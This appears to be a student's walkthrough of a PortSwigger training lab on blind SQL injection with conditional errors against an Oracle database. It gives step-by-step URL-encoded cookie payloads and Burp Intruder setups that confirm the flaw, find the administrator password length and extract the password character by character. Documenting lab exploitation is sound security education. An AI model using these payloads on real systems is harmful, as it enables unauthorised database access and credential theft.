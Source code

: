 # Blind SQL injection with conditional errors

## This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

___
#blind_sql #oracle_database

**NOTE:**  SQL CASE

![screnshot](./images/lab12_1.png)


![screnshot](./images/lab12_2.png)


step 1

Since this lab is conditional error
so we have to focus on TrackingId
go to proxy => http history => select any Request => then send to repeater

![screnshot](./images/lab12_3.png)


step 2

add `'` just after TrackingId
eg: => 
```sql
TrackingId=eXEM2vNsn8D3g49m'
```

![screnshot](./images/lab12_4.png)

step 3

add `''`
eg: => 
```sql
TrackingId=eXEM2vNsn8D3g49m''
````

![screnshot](./images/lab12_5.png)


step 4

add `'||(SELECT '')||'` => URL Encoded (CTRL + u )  `'||(SELECT+'')||'`
eg: => 
```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+'')||'
```
you will get 500 Internal Sever Error it means database don't support such query

![screnshot](./images/lab12_6.png)

step 5

**NOTE:** `From dual` used for `oracle`
add `'||(SELECT '' FROM DUAL)||'` => `'||(SELECT+''+FROM+DUAL)||'`
eg: => 
```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+''+FROM+DUAL)||'
```

![screnshot](./images/lab12_7.png)

step 6

find any table which doesn't exist
add `'||(SELECT '' FROM any_table)||'` => `'||(SELECT+''+FROM+any_table)||'`
eg: => 
```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+''+FROM+any_table)||'
```

![screnshot](./images/lab12_8.png)


step 7

To verify users table exist send this query
**NOTE:** ROWNUM =1 will prevent to return more than one row otherwise you will get error
add `'||(SELECT '' FROM users WHERE ROWNUM = 1)||'` => `'||(SELECT+''+FROM+users+WHERE+ROWNUM+%3d+1)||'`
eg: => 
```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+''+FROM+users+WHERE+ROWNUM+%3d+1)||'
```
you will get 200 ok response

![screnshot](./images/lab12_9.png)

step 8

test exploit 
**NOTE:** expression contains a divide-by-zero  *(1/0)* , which causes an error
add `'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
=> `'||(SELECT+CASE+WHEN+(1%3d1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)||'`
eg: => 
```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+(1%3d1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)||'
```
Here 1 = 1 is true then 1/0 which create error so you will get  Internal Server Error which means exploit work well

![screnshot](./images/lab12_10.png)


step 9

test exploit
`'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
=> `'||(SELECT+CASE+WHEN+(1%3d2)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)||'`
eg: =>
```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+(1%3d2)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)||'
```
Here 1=2 is false then query become `'||(SELECT '' FROM DUAL)||'` which give 200 response

![screnshot](./images/lab12_11.png)


step 10

test exploit for username administrator
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
=> `'||(SELECT+CASE+WHEN+(1%3d1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'`
eg: => 
```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+(1%3d1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'
```
Here 1 = 1 is true then 1/0 which create error so you will get  Internal Server Error which means exploit work well

![screnshot](./images/lab12_12.png)

step 11

test exploit for Password Length
`'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
=> `'||(SELECT+CASE+WHEN+LENGTH(password)>1+THEN+to_char(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'`
eg: =>
```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+LENGTH(password)>1+THEN+to_char(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'
```

![screnshot](./images/lab12_13.png)


step 12

use Intruder to find out length of password
`'||(SELECT CASE WHEN LENGTH(password)>§1§ THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
=> `'||(SELECT+CASE+WHEN+LENGTH(password)>§1§+THEN+to_char(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'`
eg: => 
```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+LENGTH(password)>§1§+THEN+to_char(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'
```

![screnshot](./images/lab12_14.png)

payload position,Grep Match and after attack result shows 20 length of password
![screnshot](./images/lab12_15.png)


step 13

test exploit for password first alphabet containing a
`'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

=> `'||(SELECT+CASE+WHEN+SUBSTR(password,1,1)%3d'a'+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'`
eg: => 
```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+SUBSTR(password,1,1)%3d'a'+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'
```
Here you get 200 ok it means a is not first alphabet password

![screnshot](./images/lab12_16.png)


step 14

use intruder to find out password
`'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
=> `'||(SELECT+CASE+WHEN+SUBSTR(password,§1§,1)%3d'§a§'+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'`
eg: => 
```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+SUBSTR(password,§1§,1)%3d'§a§'+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'
```

![screnshot](./images/lab12_17.png)

here payload 1, payload 2 and Grep Match
![screnshot](./images/lab12_18.png)

final result after attacking
![screnshot](./images/lab12_19.png)

note down each alphabet and digit from payload 2 according to payload 1
like 1 is o and 20 is 6 
`o9z230ft5zxkrhh3k3c6`

step 15

To solve the lab enter administrator as username and `o9z230ft5zxkrhh3k3c6` as password


![screnshot](./images/lab12_20.png)